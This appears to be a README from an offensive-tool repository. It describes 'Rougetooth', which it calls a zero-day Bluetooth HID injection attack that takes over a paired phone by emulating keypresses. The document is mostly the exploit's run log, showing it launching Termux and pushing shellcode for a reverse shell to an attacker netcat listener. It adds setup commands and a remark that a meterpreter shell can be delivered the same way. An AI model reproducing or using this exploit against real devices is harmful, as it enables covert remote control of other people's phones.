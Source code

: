 **Rougetooth Bluetooth HID injection attack**

*This is 0day as of Apr 21, 2023*

```
[*] Reverse shell built for 10.0.2.2 on 6543
[*] Pairing to 08:AE:D6:6F:DD:F8
[!] Paired 08:AE:D6:6F:DD:F8 to DC:53:60:6C:FC:B3
[*] Prepped to send HID shellcode, using finder to find termux, then termux to pop a reverse shell from 08:AE:D6:6F:DD:F8...
[!] Go to another terminal and start a netcat listener on port 6543 to handle the shell!
[*] Registered HID profile
[!] Ready, waiting for connection from phone
[*] Control channel connected to 08:AE:D6:6F:DD:F8
[*] Interrupt channel connected to 08:AE:D6:6F:DD:F8
[*] Trying to attain control over device...
[*] Sending back to home screen
[*] Trying to pull up finder...
[*] Trying to find termux...
[*] Pushing shellcode now...
[!] Check your netcat listener for a shell!
[!] Exploit finished.
```



*setup*

Need to run `sudo systemctl stop bluetooth`, then run: `bluetoothd -P input`.

Now pair the device, and: `sudo ./run.sh`.  Now on the phone, tap on the computer's controller alias in the bluetooth screen, and the exploit should proceed.

It should try to push the file, then accept the file itself by bringing up a HID controller on the computer side, and emulating the keypresses needed
from a hardware keyboard to accept the transfer.  This is a benign proof of concept, but uploading a meterpreter shell and running it this way is possible.


*Tested on: linux kernel 6.1.12, bluetoothd 5.66, python libraries: python-xlib 0.27, dbus-python 1.2.16*

Have fun, and be safe!

 
